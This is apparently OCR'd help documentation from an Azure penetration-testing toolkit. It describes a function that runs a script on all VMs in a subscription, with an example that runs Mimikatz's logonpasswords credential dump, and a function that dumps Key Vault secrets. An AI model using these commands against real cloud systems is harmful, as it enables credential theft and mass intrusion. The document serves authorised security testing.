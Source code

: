 PS C:\> Get-Help Invoke-AzureRmVMBulkCMD

NAME: Invoke-AzureRmVMBulkCMD

SYNOPSIS: Runs a Powershell script against all (or select) VMs in a subscription/resource group/etc.

SYNTAX: Invoke-AzureRmVMBulkCMD [[-Subscription] <String[]>] [[-ResourceGroupName] <String[]>] [[-Name] <String[]>] [-Script] <String> [[-output] <String>] [<CommonParameters>]

DESCRIPTION: This function will run a PowerShell script on all (or a list of) VMs in a subscription/resource group/etc. This can be handy for creating reverse shells, running Mimikatz, or doing practical automation of work.
    
    -------------------------- EXAMPLE 1 --------------------------
    
    PS C:\MicroBurst>Invoke-AzureRmVMBulkCMD -Verbose -Script .\Mimikatz.ps1
    
    Executing C:\MicroBurst\Mimikatz.ps1 against all (1) VMs in the Testing-Resources Subscription
    Are you Sure You Want To Proceed: (Y/n): 
    VERBOSE: Running .\Mimikatz.ps1 on the Remote-West - (10.2.0.5 : 40.112.160.13) virtual machine (1 of 1)
    VERBOSE: Script Status: Succeeded
    Script Output: 
      .#####.   mimikatz 2.0 alpha (x64) release "Kiwi en C" (Feb 16 2015 22:15:28)
     .## ^ ##.  
     ## / \ ##  /* * *
     ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
      '#####'                                     with 15 modules * * */
    
    
    mimikatz(powershell) # sekurlsa::logonpasswords
    [Truncated]
    mimikatz(powershell) # exit
    Bye!
    
    VERBOSE: Script Execution Completed on Remote-West - (10.2.0.5 : 40.112.160.13)
    VERBOSE: Script Execution Completed in 37 seconds

RELATED LINKS: https://blog.netspi.com/running-powershell-scripts-on-azure-vms

## Get-AzureKeyVaults-Automation.ps1
PS C:\> Import-Module .\Get-AzureKeyVaults-Automation.ps1

PS C:\> Get-Help Get-AzureKeyVaults-Automation

NAME: Get-AzureKeyVaults-Automation

SYNOPSIS: Dumps all available Key Vault Keys/Secrets from an Azure subscription via Automation Accounts. Pipe to Out-Gridview, ft -AutoSize, or Export-CSV for easier parsing.

SYNTAX: Get-AzureKeyVaults-Automation [[-Subscription] <String>] [[-CertificatePassword] <String>] [[-ExportCerts] <String>] [<CommonParameters>]
